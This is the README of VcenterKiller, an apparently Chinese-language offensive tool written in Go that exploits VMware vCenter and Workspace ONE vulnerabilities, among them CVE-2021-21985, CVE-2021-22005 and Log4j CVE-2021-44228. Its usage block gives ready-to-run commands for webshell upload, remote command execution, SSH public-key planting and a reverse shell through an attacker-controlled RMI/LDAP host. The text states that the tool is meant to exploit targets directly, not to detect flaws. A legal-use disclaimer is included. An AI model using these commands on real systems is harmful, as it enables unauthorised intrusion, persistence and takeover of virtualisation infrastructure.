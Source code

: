 
![vckiller](https://socialify.git.ci/Schira4396/VcenterKiller/image?description=1&descriptionEditable=%E4%B8%80%E6%AC%BE%E9%92%88%E5%AF%B9Vcenter%E7%9A%84%E7%BB%BC%E5%90%88%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7&font=Inter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Plus&stargazers=1&theme=Light)

# VcenterKiller
#### 0.必读
如果遇到bug请提issue，写这个工具单纯是为了方便，它没有什么高大上的东西



#### 1.它是什么

一款针对Vcenter的综合**验证**工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-22005，提供一键上传webshell，命令执行或者上传公钥并使用SSH连接的功能，以及针对Apache Log4j CVE-2021-44228漏洞在Vcenter上的检测以及利用，比如命令执行并获取回显（~~需要一个ldap恶意服务器~~），现在不需要另外启动ldap服务器了，我根据jndi-injection工具手搓了一个利用方式，Vcenter使用的中间件是Tomcat，直接使用TomcatBypass的利用链就行了。

#### 2.它的定位

一般Vcenter都放在内网，并且漏洞特征也都是烂大街，像什么fscan啦一扫就出来了，那么VcenterKiller就不是用来检测目标是否存在漏洞的，而是直接尝试利用，一般通过CS/MSF在跳板上来执行，所以去掉了其余花里胡哨的输出。

为什么用GO，因为Python写起来方便但是用起来很蛋疼，各种依赖库，并且编译出来体积太大，C#没法跨平台，写到一半扔了。

#### 3.使用方法

```bash
go build -o main.exe

./main.exe -u https://192.168.1.1 -m 21985 -c whoami
./main.exe -u https://192.168.1.1 -m 22005 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f id_rsa.pub -t ssh //传公钥
./main.exe -u https://192.168.1.1 -m 21985 -t rshell -r rmi://xx.xx.xx.xx:1099/xx
./main.exe -u https://192.168.1.1 -m log4center -t scan // scan log4j
./main.exe -u https://192.168.1.1 -m log4center -t exec -r ldap://xx.xx.xx.xx:1389 -c whoami //也可以不指定ldap服务
./main.exe -u https://xx.xx.com -m 22954 whoami
./main.exe -u https://xx.xx.com -m 22972 //get cookie
./main.exe -u https://xx.xx.com -m 31656 //If CVE-2022-22972不能用就换CVE-2022-31656
```

#### 4.免责声明

本工具仅面向**合法授权**的企业安全建设行为，例如企业内部攻防演练、漏洞验证和复测，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标使用。**

如您在使用本工具的过程中存在任何非法行为，**您需自行承担相应后果**，我们将不承担任何法律及连带责任。

#### 5.更新日志

```bash
V1.0 上线
V1.1 针对CVE-2021-21985添加了利用rmi反弹shell的功能，前提是你要启动一个rmi服务器，例如jndi-injection-exploit
V1.2 增加了针对Vcenter的log4j检测和验证能力
V1.3 增加了对Vmware WorkSpace One Access的漏洞验证功能，包括CVE-2022-22954 远程命令执行；CVE-2022-22972、CVE-2022-31656身份鉴别绕过
V1.3.1 修复了检测log4j时忽略了端口的问题，有的服务会更改默认的443端口
V1.3.2 修改了针对log4j的利用方式，通过tomcatbypassEcho的方式执行命令并获取回显。vcenter 7.0 linux测试通过。
V1.3.3 增加了对6.7和7.0版本的区别利用，7.0必须使用tomcatbypass，而6.7使用普通的basic就行了
v1.3.4 修改了对log4j的验证逻辑，目前的逻辑是循环5次不同payload无差别乱打，有回显就有，没有就没有
v1.3.5 消除了log4j对Jndi-Injection-Exploit的依赖，能够直接执行命令并获取回显
...
```

